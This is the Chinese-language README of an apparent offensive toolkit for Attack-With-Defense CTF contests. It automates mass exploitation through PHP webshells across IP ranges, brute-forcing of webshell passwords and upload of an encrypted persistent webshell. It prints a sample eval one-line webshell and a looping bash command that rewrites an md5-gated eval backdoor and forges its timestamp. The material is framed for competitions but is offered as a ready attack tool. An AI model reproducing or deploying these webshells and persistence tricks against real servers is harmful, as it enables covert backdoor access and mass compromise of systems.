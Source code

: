     AWD Predator Framework v1.0                   

              --code by AresX       
			  

* 在AWD攻防赛中通过给定的webshell批量获取提交flag

* 为不会现场挖洞写脚本的菜鸡准备

* 用py去实现菜刀是一件代码量很大的事情，懒得做也不会做(以后可能会做)，所以需要手动设置一句话的功能函数和方法

* 针对简单的单参数传递的一句话和特定的加密一句话


# webshell

**添加已知的webshell,仅支持php，GET和POST方法使用eval和exec函数的一句话木马**

### 添加webshell

命令`add`

使用方法: `add [shell path] [pwd] [type(eval/exec)] [method(get/post)]`

如一句话为`<?php @eval($_POST[‘cmd’]);?>` 路径为`x.x.x.x:8001://index/cmd.php`

一句话密码为`cmd` 功能函数为`eval` 方法为`POST`

example:`add x.x.x.x:8001://index/cmd.php cmd eval post`

命令执行后webshell的路径和密码会以字典的形式储存

**处理了使用md5加密的eval函数一句话,**

get方法在添加时,可添加带md5加密的密码的路径

如:`add :8003/x.php?pass=fuckyou x eval get` 

post方法请在`flag.py`中修改`for j in POST_eval_shells_path_pwd:`循环中的`evel_POST_data['pass']`为自己的密码，密码将被自动传递

post添加方法同`add x.x.x.x:8001://index/cmd.php cmd eval post`

### 显示添加的webshell

命令`show`

将显示所有添加的webshell路径和密码

### 保存,读取,清空webshell
*保存已经添加的webshell路径和密码，方便临场修改代码*

保存:`save`
读取:`load`
清空:`clear` //清空不会清空已经储存的webshell,除非在清空后执行保存命令

### Webshell爆破

*采用一种提速千倍的爆破方法*

命令: `crack http://xxx.php`

字典储存在`auxi/pwd.txt`中，可自行完善字典


# iplist

**根据输入生成指定段的ip列表**

### 生成列表

命令: `ip x.x.a-b.x`

可设定acb任意段的ip列表,使用'-'连接左右区间

### 添加指定ip

命令: `ip x.x.x.x`

执行命令后,`x.x.x.x`将被添加到ip列表中,会自动去除重复项和进行排序

### 查看已经生成的列表

命令: `showip`

显示生成的ip列表

### 清空ip列表

命令: `clearip`

### 去掉指定ip

命令: `removeip x.x.x.x`

# flag

**通过iplist和webshell获取flag，将获取到的flag提交到指定服务器**

### 获取flag
*遍历iplist中所有的地址尝试通过所有已经添加的webshell获取flag,在执行此命令前需设定iplist，否则报错*

命令:`getflag [command]`

example:`getflag curl www.baidu.com/flag.txt`

获取命令如果不需要修改只需完整输入一次，之后可直接执行`getflag`

### 查看flag

命令: `showflag`



### 提交flag

**攻防赛环境中获取到的flag通常不是标准格式,`flag.py`中的`submit_flag`函数中已经使用了`re.compile(r'flag{\w+?}')`尝试匹配标准flag格式**
**如果出现问题,请自行在`flag.py`文件的`submit_flag`函数中使用正则匹配获得标准flag进行提交**

*提交flag 需设定提交flag的链接，以及cookie和data,使用"?"替换flag在data中所在的参数*

命令: `submit [url] [cookie] [data](use '?' replace the flag )`

example: `submit http:xxx.xxx.xx/xx/ JSESSIONID=A6F8;route=6cf03 pid=-1&pidName=&flag=?`
**去掉cookie中的空格,data中flag所在位置需用?代替！**

提交命令如果不需要修改只需完整输入一次，之后可直接执行`submit`

submit完成之后会有清空flag的选项(y/n)

### 清空flag

命令: `clearflag`

# 上传

## 文件木马上传

命令: `upload <file>(default='auxi/shell.php')`

默认上传文件为`auxi/shell.php` 如需使用修改默认文件,默认文件为加密不死马

如需上传其他文件,将文件储存在`auxi/`目录下

执行`upload xxx`即可

如上传默认文件,直接执行`upload`

如果文件上传成功，会自动访问一次上传的文件，激活不死马

## 命令木马上传

命令: `cupload`

连接一句话执行bash命令生成不死马`.index1.php`

bash命令为:`system('while true;do echo \'<?php if(md5($_POST["pass"])=="3a50065e1709acc47ba0c9238294364f"){@eval($_POST[a]);} ?>\' >fuck.php;touch -m -d "2017-11-12 10:10:10" .index1.php;sleep 1;done;');`

---


### 目录结构
```
###########
├── Readme.md               //帮助文档 
├── console.py              //启动
├── core                    // 核心模块
│   ├── shells.py           //写入，读取，保存webshell
│   ├── flag.py             // 获取，提交flag
│   ├── iplist.py           // 生成ip列表   
│—— auxi                    //辅助模块
|   |—— upload.py           //webshell上传功能
|   |—— shell.php           //默认上传文件
|   |—— webshell.txt        //一句话储存路径  
|   |—— command.py          //上传bash不死马
|—— data                    //webshell数据储存

```
